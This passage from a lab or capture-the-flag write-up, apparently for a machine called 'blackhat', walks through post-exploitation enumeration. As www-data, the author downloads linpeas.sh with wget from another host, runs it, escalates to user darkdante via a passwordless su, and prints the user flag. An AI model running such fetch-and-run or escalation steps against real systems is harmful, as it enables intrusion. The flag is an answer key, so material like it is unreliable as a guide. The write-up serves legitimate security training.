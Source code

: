 The web root contained the `index.html` and `phpinfo.php` files I had already seen.

Next, I checked the `/home` directory for other users.

```shellscript
www-data@blackhat:/$ ls -la /home
total 12
drwxr-xr-x  3 root      root      4096 Nov 11  2022 .
drwxr-xr-x 18 root      root      4096 Nov 10  2022 ..
drwxr-xr-x  3 darkdante darkdante 4096 Nov 13  2022 darkdantewww-data@blackhat:/home$ cd darkdante
www-data@blackhat:/home/darkdante$ ls -la
total 28
drwxr-xr-x 3 darkdante darkdante 4096 Nov 13  2022 .
drwxr-xr-x 3 root      root      4096 Nov 11  2022 ..
lrwxrwxrwx 1 root      root         9 Nov 11  2022 .bash_history -> /dev/null
-rw-r--r-- 1 darkdante darkdante  220 Nov 11  2022 .bash_logout
-rw-r--r-- 1 darkdante darkdante 3526 Nov 11  2022 .bashrc
drwxr-xr-x 3 darkdante darkdante 4096 Nov 11  2022 .local
-rw-r--r-- 1 darkdante darkdante  807 Nov 11  2022 .profile
-rwx------ 1 darkdante darkdante   33 Nov 11  2022 user.txt
```

I found a user named `darkdante` with a `user.txt` file. Interestingly, `darkdante`'s `.bash_history` was symlinked to `/dev/null`, preventing command history from being saved. I couldn't read `user.txt` as `www-data` due to permissions.

I attempted to use `sudo -l` as `www-data`, but it required a password.

```shellscript
www-data@blackhat:/home/darkdante$ sudo -l
[sudo] password for www-data: Sorry, try again.
```

I then uploaded and ran `linpeas.sh` to perform a more thorough privilege escalation enumeration.

```shellscript
www-data@blackhat:/home/darkdante$ wget http://192.168.1.5/linpeas.sh
# ... (download output) ...
www-data@blackhat:/home/darkdante$ chmod +x linpeas.sh
www-data@blackhat:/home/darkdante$ ./linpeas.sh
# ... (linpeas output) ...
```

### 5. Privilege Escalation to `darkdante`

During the enumeration, I noticed that the `www-data` user could `su` to `darkdante` without a password. This is a common misconfiguration or an indication that `darkdante` has a blank password.

```shellscript
www-data@blackhat:/home/darkdante$ su darkdante
darkdante@blackhat:~$ id
uid=1000(darkdante) gid=1000(darkdante) groups=1000(darkdante)
```

I successfully switched to the `darkdante` user. Now, I could read `user.txt`.

```shellscript
darkdante@blackhat:~$ cat user.txt
89fac491dc9bdc5fc4e3595dd396fb11
```
